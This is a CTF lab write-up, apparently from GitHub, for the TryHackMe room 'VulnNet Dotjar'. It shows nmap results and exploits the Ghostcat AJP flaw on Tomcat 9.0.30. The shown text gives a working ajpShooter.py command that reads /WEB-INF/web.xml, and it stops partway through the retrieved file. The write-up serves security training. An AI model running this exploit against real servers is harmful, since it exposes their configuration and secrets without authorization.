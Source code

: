 # Tryhackme.com Room : Vulnet Dotjar

`https://tryhackme.com/room/vulnnetdotjar

## Instance

```bash
export IP="10.10.65.140"
```

## Nmap

```
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
| ajp-methods:
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http    Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat/9.0.30
```

## Initial Foothold

We got tomcat running on port `8080`

`Apache Jserv` is some kind of proxy to serve static content apparently



Looking around, this might be related to the `ghostcat` vulnerability which can be used for local file inclusion



Let's try the exploit file at `https://github.com/00theway/Ghostcat-CNVD-2020-10487`



Using `ajpShooter.py` :

```bash
python3 ajpShooter.py http://10.10.65.140 8009  /WEB-INF/web.xml read
```

We retrieve this file :

```
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
```